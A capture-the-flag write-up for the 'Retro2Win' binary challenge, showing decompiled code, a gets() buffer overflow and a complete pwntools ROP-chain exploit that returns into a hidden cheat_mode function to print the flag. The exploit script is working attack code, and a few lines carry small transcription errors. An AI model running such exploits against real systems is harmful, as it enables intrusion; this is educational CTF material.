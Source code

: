 ```yaml
---
description: Binary Exploitation
---
```


# Retro2Win

> So retro.. So winning..
>
> Author: CryptoCat

{% file src="../../.gitbook/assets/retro2win.zip" %}

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Looks like a simple ret2win. Decompiling the challenge binary in Ghidra tells me that there is a hidden cheat mode:

```c
undefined8 main(void)

{
  int local_c;
  
  do {
    while( true ) {
      while( true ) {
        show_main_menu();
        __isoc99_scanf(&DAT_00400c19,&local_c);
        getchar();
        if (local_c != 2) break;
        battle_dragon();
      }
      if (2 < local_c) break;
      if (local_c == 1) {
        explore_forest();
      }
      else {
LAB_0040093b:
        puts("Invalid choice! Please select a valid option.");
      }
    }
    if (local_c == 3) {
      puts("Quitting game...");
      return 0;
    }
    if (local_c != 0x539) goto LAB_0040093b;
    enter_cheatcode(); // LOOK HERE
  } while( true );
}
```

0x539 is 1337, so I just had to enter 1337 to enter the cheatcode function which looks like this:

```c
void enter_cheatcode(void)

{
  char local_18 [16];
  
  puts("Enter your cheatcode:");
  gets(local_18);
  printf("Checking cheatcode: %s!\n",local_18);
  return;
}
```

Simple buffer overflow with gets, so I aimed for the cheat mode which needed 2 parameters:

```c
void cheat_mode(long param_1,long param_2)

{
  char *pcVar1;
  char local_58 [72];
  FILE *local_10;
  
  if ((param_1 == 0x2323232323232323) && (param_2 == 0x4 242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts("Error: Could not open flag.txt");
    }
    else {
      pcVar1 = fgets(local_58,0x40,local_10);
      if (pcVar1 != (char *)0x0) {
        printf("FLAG: %s\n",local_58);
      }
      fclose(local_10);
    }
  }
  else {
    puts("Unauthorized access detected! Returning to main men u...\n");
  }
  return;
}
```

Heres both registers that are used for the parameter:

```
0040073e  48 89 7d a8         MOV            qword ptr [RBP  +  local_60 ],RDI
00400742  48 89 75 a0         MOV            qword ptr [RBP  +  local_68 ],RSI
```

The full ROP chain can be combined into one script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'retro2win')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'retro2win.ctf.intigriti.io'
port = int(args.PORT or 1338)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
break *enter_cheatcode+58
# break *cheat_mode+16
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()
enter_cheat_mode = b'1337'
cheat_mode = 0x0000000000400736
POP_RDI = 0x00000000004009b3
param1 = 0x2323232323232323
POP_RSI_R15 = 0x00000000004009b1
param2 = 0x4242424242424242

log,info(io.clean())
io.sendline(enter_cheat_mode)
log.info(io.clean())

payload = flat(
    cyclic(24, n=8),
    POP_RDI,
    param1,
    POP_RSI_R15,
    param2,
    0x0,
    cheat_mode,
)
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/Screenshot 2024-11-15 230743.png" alt=""><figcaption></figcaption></figure>
